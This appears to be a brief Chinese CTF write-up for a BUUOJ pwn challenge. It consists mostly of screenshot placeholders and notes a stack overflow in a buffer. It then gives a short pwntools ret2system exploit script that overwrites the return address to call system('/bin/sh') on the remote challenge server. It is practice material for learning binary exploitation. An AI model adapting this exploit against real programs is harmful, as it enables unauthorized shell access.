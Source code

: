 ![[Pasted image 20231219202722.png]]
![[Pasted image 20231219202744.png]]
可以看见function函数中有可以栈溢出的变量buf
![[Pasted image 20231219202833.png]]
![[Pasted image 20231219214017.png]]
![[Pasted image 20231219202844.png]]
可以找到”/bin/sh“和system函数的地址
写出exp：
```python
from pwn import *
p = remote("node4.buuoj.cn",29161)
shell = 0x0804a024
system = 0x08048320
payload = b'a'*(0x88+4)+p32(system)+p32(0x0)+p32(shell)
p.sendlineafter('Input:',payload)
p.interactive()
```

